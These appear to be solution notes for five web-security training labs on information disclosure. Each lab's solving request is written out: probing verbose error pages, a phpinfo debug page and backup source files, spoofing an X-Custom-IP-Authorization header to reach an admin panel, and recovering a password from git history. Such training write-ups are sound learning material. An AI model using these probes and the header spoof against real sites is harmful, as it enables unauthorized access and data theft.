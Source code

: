 ### Lab: Information disclosure in error messages
This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework. To solve the lab, obtain and submit the version number of this framework.
```
GET /product?productId=a HTTP/2
Host: 0a93000f049ecb138157da4b00d30036.web-security-academy.net
Cookie: session=wFkBlBbCgSVEufN2CWY8gKTgvemmTDez
```
### Lab: Information disclosure on debug page

This lab contains a debug page that discloses sensitive information about the application. To solve the lab, obtain and submit the SECRET_KEY environment variable. 
```
GET /cgi-bin/phpinfo.php HTTP/2
Host: 0a6d00bc04021c1b83be949100cc00d1.web-security-academy.net
Cookie: session=Rf8Bv18V4BHhpfpJxmD3p3yAQCn1ZoRn
```
### Lab: Source code disclosure via backup files

This lab leaks its source code via backup files in a hidden directory. To solve the lab, identify and submit the database password, which is hard-coded in the leaked source code. 
```
GET /backup/ProductTemplate.java.bak HTTP/2
Host: 0ae60063030efa108211f2e200ef00db.web-security-academy.net
Cookie: session=Xb4yrszrGGTqYSiEPYBrEmCiQF68QgQi
```
### Lab: Authentication bypass via information disclosure

This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 
```
GET /admin HTTP/2
Host: 0aa9008f03f064948136090e00cf0056.web-security-academy.net
Cookie: session=OE8AI1Kcm7m2qxqNgqqxwhoiibRj0v81
X-Custom-IP-Authorization: 127.0.0.1
```
### Lab: Information disclosure in version control history

This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete the user carlos. 

```
commit ec03f931c6ef362896960e6249adf51c79c7ae34 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index 267011c..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=3xi2xozqjsqixrgflbnf
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```